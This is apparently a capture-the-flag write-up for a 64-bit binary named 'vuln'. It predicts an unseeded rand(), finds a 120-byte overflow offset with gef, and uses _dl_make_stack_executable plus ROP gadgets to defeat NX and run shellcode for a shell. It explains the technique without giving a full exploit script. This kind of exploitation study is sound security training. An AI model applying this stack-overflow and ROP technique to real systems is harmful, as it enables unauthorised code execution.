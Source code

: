 

## Guess the number

We could brute-force to guess the number, or since function ``get_random`` takes a number generated with unseed rand as return, so we could load ``libc`` and call ``rand`` to generate such a number.

```
num = (libc.rand() % 100) + 1
```

## Make stack executable

```
checksec --file ./vuln
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   ./vuln
```

Since the program is NX enabled, we can't simply execute code from stack. To inject and run shellcode we need to make the stack executable.

Run ``nm`` on the program, we found an interesting function ``_dl_make_stack_executable``, which allow us to set permission on stack.

```
...
0000000000480860 T _dl_make_stack_executable
...
```

Disassamble with ``radare2``.

```
$ r2 vuln
 -- Your problems are solved in an abandoned branch somewhere
 [0x00400a40]> pd $s
```

``_dl_make_stack_executable`` takes ``__libc_stack_end`` as parameter and call ``mprotect`` with parameter ``__stack_prot``. 

```
            ;-- _dl_make_stack_executable:
            0x00480860      488b3591a923.  mov rsi, qword [obj._dl_pagesize] ; [0x6bb1f8:8]=0x1000
            0x00480867      53             push rbx
            0x00480868      4889fb         mov rbx, rdi
            0x0048086b      488b17         mov rdx, qword [rdi]
            0x0048086e      4889f7         mov rdi, rsi
            0x00480871      48f7df         neg rdi
            0x00480874      4821d7         and rdi, rdx
            0x00480877      483b15329223.  cmp rdx, qword [obj.__libc_stack_end] ; [0x6b9ab0:8]=0
            0x0048087e      7520           jne 0x4808a0
            0x00480880      8b156a962300   mov edx, dword [obj.__stack_prot] ; [0x6b9ef0:4]=0x1000000
            0x00480886      e8f5abfcff     call sym.__mprotect
            0x0048088b      85c0           test eax, eax
            0x0048088d      7521           jne 0x4808b0
            0x0048088f      48c703000000.  mov qword [rbx], 0
            0x00480896      830d4ba92300.  or dword [obj._dl_stack_flags], 1 ; [0x6bb1e8:4]=7
            0x0048089d      5b             pop rbx
            0x0048089e      c3             ret
```

We need to set ``__stack_prot`` to *7*, meaning *PROT_READ|PROT_WRITE|PROT_EXEC*, and then call ``_dl_make_stack_executable`` with address of ``__libc_stack_end`` to make stack executable.

```
#define PROT_READ  0x1    /* page can be read */
#define PROT_WRITE  0x2   /* page can be written */
#define PROT_EXEC 0x4     /* page can be executed */
```

So the payload would be ``padding + set __stack_prot to 7 + set rdi to __libc_stack_end + call _dl_make_stack_executable + push shellcode``.

## Find out padding

Set a breakpoint in main and run the program.

```
gef➤  break main
gef➤  r
```

Now try to call ``win`` with generated patter to cause segfault.

```
gef➤  pattern create 150                                                                                                                     [58/1898]
[+] Generating a pattern of 150 bytes                                                                                                                 
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaa
[+] Saved as '$_gef0'                                                      
gef➤  call (void*)win()                                                     
New winner!                                                                
Name? aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaa
saaaaa
Congrats aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaa
aaasaaaaa



Program received signal SIGSEGV, Segmentation fault.
0x0000000000400c8b in win ()
[ Legend: Modified register | Code | Heap | Stack | String ]
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0xa2              
$rbx   : 0x00000000006ba580  →  0x00000000fbad2288
$rcx   : 0x0               
$rdx   : 0x00000000006bcdf0  →  0x0000000000000000
$rsp   : 0x00007fffffffdba8  →  0x6161616161616170 ("paaaaaaa"?)
$rbp   : 0x616161616161616f ("oaaaaaaa"?)
$rsi   : 0x0               
$rdi   : 0x1               
$rip   : 0x0000000000400c8b  →  <win+75> ret 
$r8    : 0x0               
$r9    : 0xa2           
$r10   : 0xffffff69                                                                                                                          [30/1898]
$r11   : 0x246             
$r12   : 0x00000000006bbce0  →  0x0000000000000000
$r13   : 0x00000000006bc0a0  →  0x0000000000000000
$r14   : 0x00000000006bc0a0  →  0x0000000000000000
$r15   : 0x167             
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdba8│+0x0000: 0x6161616161616170   ← $rsp
0x00007fffffffdbb0│+0x0008: 0x6161616161616171
0x00007fffffffdbb8│+0x0010: 0xcc61616161616172
0x00007fffffffdbc0│+0x0018: "saaaaa\n"
0x00007fffffffdbc8│+0x0020: 0x000000006037a800
0x00007fffffffdbd0│+0x0028: 0x0000000010d44792
0x00007fffffffdbd8│+0x0030: 0x000000000041446d  →  <_IO_new_file_write+45> test rax, rax
0x00007fffffffdbe0│+0x0038: 0x0000000010d44792
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400c84 <win+68>         call   0x410010 <printf>
     0x400c89 <win+73>         nop    
     0x400c8a <win+74>         leave  
 →   0x400c8b <win+75>         ret    
[!] Cannot disassemble from $PC
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x400c8b in win (), reason: SIGSEGV
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400c8b → win()
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
The program being debugged was signaled while in a function called from GDB.
GDB remains in the frame where the signal was received.                                                                                       [1/1898]
To change this behavior use "set unwindonsignal on".
Evaluation of the expression containing the function
(win) will be abandoned.
When the function is done executing, GDB will silently stop.
```

Check the registers, noticed the pattern in ``$rsp``. Search the pattern and find out padding is 120.

```
gef➤  registers 
$rax   : 0xa2              
$rbx   : 0x00000000006ba580  →  0x00000000fbad2288
$rcx   : 0x0               
$rdx   : 0x00000000006bcdf0  →  0x0000000000000000
$rsp   : 0x00007fffffffdba8  →  0x6161616161616170 ("paaaaaaa"?)
$rbp   : 0x616161616161616f ("oaaaaaaa"?)
$rsi   : 0x0               
$rdi   : 0x1               
$rip   : 0x0000000000400c8b  →  <win+75> ret 
$r8    : 0x0               
$r9    : 0xa2              
$r10   : 0xffffff69        
$r11   : 0x246             
$r12   : 0x00000000006bbce0  →  0x0000000000000000
$r13   : 0x00000000006bc0a0  →  0x0000000000000000
$r14   : 0x00000000006bc0a0  →  0x0000000000000000
$r15   : 0x167             
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
gef➤  pattern search paaaaaaa
[+] Searching 'paaaaaaa'
[+] Found at offset 113 (little-endian search) likely
[+] Found at offset 120 (big-endian search) 
gef➤ 
```


## Find gadgets

Run ``ROPgadget`` to print all the gadges in ``vuln``.

```
ROPgadget --binary ./vuln
```

``ROP.find_gadget`` in ``pwntools`` is convinient, but some gadgets might be missing in gadget list, we could still manually add them.

```
...
0x0000000000419127 : mov qword ptr [rdx], rax ; ret
...
0x0000000000451974 : push rsp ; ret
...
```

Combine them all together to get shell and find the flag in ``flag.txt`` on remote server.

